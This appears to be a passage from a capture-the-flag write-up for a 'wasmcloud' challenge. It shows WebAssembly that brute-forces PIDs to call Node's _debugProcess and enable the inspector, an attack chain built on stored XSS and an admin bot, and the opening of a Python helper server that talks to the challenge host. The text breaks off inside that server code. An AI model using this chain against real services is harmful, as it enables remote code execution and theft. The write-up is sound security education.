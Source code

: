 My idea here was just to keep calling /json/list until a server happens to be up and use it. I asked nope to write some webassembly that just calls `_debugProcess`, brute forcing the PID, and spins a loop at this point and here's what he came up with:

```
(module
  (import "process" "exit" (func $return (param i32)))
  (import "process" "_debugProcess" (func $enable (param i32)))
  (func (export "main") (local $meme1 i32)
    i32.const 0
    set_local $meme1
    
    loop $B0
      get_local $meme1
      call $enable
      get_local $meme1
      i32.const 1
      i32.add
      set_local $meme1
      get_local $meme1
      i32.const 9999
      i32.ne
      br_if $B0
    end
    
    loop $B1
      i32.const 1
      i32.const 2
      i32.add
      br $B1
    end

    i32.const 69420
    call $return
  )
)
```

At this point I'm thinking I have all the parts - here's what we'll do:
- Submit the stored XSS
- Send the admin bot to the stored XSS
- Spam run the wasm to run the debug process
- Wait for the flag delivery

I try it, and it doesn't work (what did you expect?). I then remember that a different port is not same origin, something I really should know. So we need to find a new method to get the websocket URL. The URL is printed out, but since we only get the output after calling /run/, that's too late, right? Well, since the response is returned chunked, it turns out we can read the webstocket URL that was sent to stderr before the server closes.

However, to get the timing to behave, we'll need to spin up a small http server ourselves that starts the wasm and returns a websocket URL on being called;

Here's the one I made:
```python
from flask import Flask
import requests
from pwn import *
from flask_cors import CORS, cross_origin
app = Flask(__name__)
cors = CORS(app)
app.config['CORS_HEADERS'] = 'Content-Type'

def make_r():
    r = remote("wasmcloud.chal.uiuc.tf", 80)
    r.sendline(b"GET /run/your-wasm-hash.wasm HTTP/1.1\r\n")
```